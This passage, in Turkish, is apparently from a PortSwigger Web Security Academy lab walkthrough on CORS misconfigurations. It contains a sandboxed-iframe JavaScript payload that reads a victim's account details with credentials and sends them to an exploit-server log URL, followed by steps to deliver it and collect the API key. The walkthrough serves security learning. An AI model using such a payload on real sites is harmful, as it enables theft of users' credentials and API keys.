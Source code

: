 ```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

6- Bu bir `null` origin isteği oluşturduğundan bir iframe sandbox kullanımına dikkat edin.

7- “ View exploit” seçeneğine tıklayın. Exploit'in çalıştığını gözlemleyin - log sayfasına geldiniz ve API anahtarınız URL'de yer alıyor.

![Pasted image 20250603002409.png](/img/user/resimler/Pasted%20image%2020250603002409.png)

![Pasted image 20250603002358.png](/img/user/resimler/Pasted%20image%2020250603002358.png)

![Pasted image 20250603002417.png](/img/user/resimler/Pasted%20image%2020250603002417.png)

8- Exploit sunucusuna geri dönün ve “ Deliver exploit to victim” (Exploit'i kurbana teslim et) seçeneğine tıklayın.

9- “ Access log ”a tıklayın, laboratuvarı tamamlamak için kurbanın API anahtarını alın ve gönderin.

---

### CORS güven ilişkileri aracılığıyla XSS'den yararlanma

“Doğru” yapılandırılmış CORS bile iki origin arasında bir trust ilişkisi kurar. Bir web sitesi, cross-site scripting'e (XSS) karşı savunmasız olan bir kaynağa güveniyorsa, bir saldırgan, savunmasız uygulamaya güvenen siteden hassas bilgileri almak için CORS'u kullanan bazı JavaScript'leri enjekte etmek için XSS'den yararlanabilir.

“Doğru” yapılandırılmış CORS bile iki origin arasında bir trust ilişkisi kurar. Bir web sitesi, cross-site scripting'e (XSS) karşı savunmasız olan bir origine güveniyorsa, bir saldırgan, savunmasız uygulamaya güvenen siteden hassas bilgileri almak için CORS'u kullanan bazı JavaScript'leri enjekte etmek için XSS'den yararlanabilir.

Aşağıdaki istek göz önüne alındığında:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Sunucu şu şekilde yanıt verirse:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
